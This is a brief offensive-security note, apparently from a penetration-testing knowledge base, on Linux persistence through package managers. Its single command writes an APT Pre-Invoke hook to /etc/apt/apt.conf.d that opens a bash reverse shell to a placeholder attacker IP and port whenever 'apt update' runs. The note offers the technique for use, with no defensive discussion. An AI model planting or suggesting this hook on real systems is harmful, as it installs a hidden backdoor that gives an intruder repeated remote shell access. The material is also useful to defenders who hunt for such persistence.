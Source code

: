 ```yaml
---
author(s):
  - Userware
tags:
  - post-exploitation
  - maintaining-access
  - persistence
  - living-off-the-land
  - linux
---
```

# Package Managers

## 01 - APT

```
# cat > /etc/apt/apt.conf.d/updater << EOF
APT::Update::Pre-Invoke {"bash -c 'bash -i >& /dev/tcp/<attacker_IP>/<attacker_PORT> 0>&1'"};
EOF
```

---
## References

- [[Linux Post Exploitation Persistence References]]